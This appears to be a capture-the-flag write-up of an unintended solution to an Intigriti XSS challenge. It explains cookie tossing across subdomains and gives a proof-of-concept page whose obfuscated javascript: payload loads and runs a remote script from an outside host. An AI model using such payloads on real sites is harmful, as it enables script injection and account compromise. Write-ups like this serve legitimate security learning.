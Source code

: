 ```yaml
---
layout: post
date: 2021-08-23 00:00
title: Inti XSS unintended solution
summary: cookies and milk
---
```


Unintended way to solve the challenge

##Two things you need to Know (Gotcha's):
	- Any subdomain can set cookie for all subdomains of a domain
	- If two cookie with same name exists, the cookie with more specific path is prefered.

##Steps:
1. Using previous XSS on intigritii challenges create a cookie named `username` set it's domain attribute as
	*intigriti.io* and path attribute as */challenge/cooking.html*

2. Redirect to *https://challenge-0821.intigriti.io/*


## POC code:
 ```HTML
	<!DOCTYPE html>
	<html>
	  <head>
	    <meta charset="utf-8">
	    <meta name="viewport" content="width=device-width">
	    <title>repl.it</title>
	    <link href="style.css" rel="stylesheet" type="text/css" />
	  </head>
	  <body>
	    <script>
	      location = "https://javascript.challenge-0121.intigriti.io/?r=j%26%23x41;vascript:eval(atob(`eD1kb2N1bWVudC5jcmVhdGVFbGVtZW50KCJzY3JpcHQiKTt4LnNyYz0iaHR0cHM6Ly9jeWJlcnBvc3NpYmxlYXhpcy5jeXBoM3IxMzM3LnJlcGwuY28vc2NyaXB0LmpzIjtkb2N1bWVudC5ib2R5LmFwcGVuZENoaWxkKHgpOw==`));//%0aid=origin"
	
	    </script>
	  </body>
	</html>
 ```

